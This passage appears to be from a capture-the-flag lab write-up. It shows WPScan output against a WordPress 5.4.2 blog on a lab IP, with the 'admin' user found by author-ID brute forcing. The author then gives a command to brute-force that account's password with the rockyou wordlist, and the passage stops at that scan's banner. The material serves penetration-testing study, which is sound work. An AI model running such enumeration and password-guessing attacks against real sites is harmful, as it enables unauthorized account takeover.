 ```bash
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://10.10.186.60/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.10.186.60/blog/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.4.2'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.10.186.60/blog/, Match: 'WordPress 5.4.2'

[i] The main theme could not be detected.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <===================================================================================================================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Sun Dec 31 15:10:31 2023
[+] Requests Done: 48
[+] Cached Requests: 5
[+] Data Sent: 11.895 KB
[+] Data Received: 302.953 KB
[+] Memory used: 150.684 MB
[+] Elapsed time: 00:00:03
```

Here we can see that I have retrieved an username, Admin!

Now I can try to retrieve the password:

```bash
wpscan --url 10.10.186.60/blog -e u -P /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.25
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.10.186.60/blog/ [10.10.186.60]
```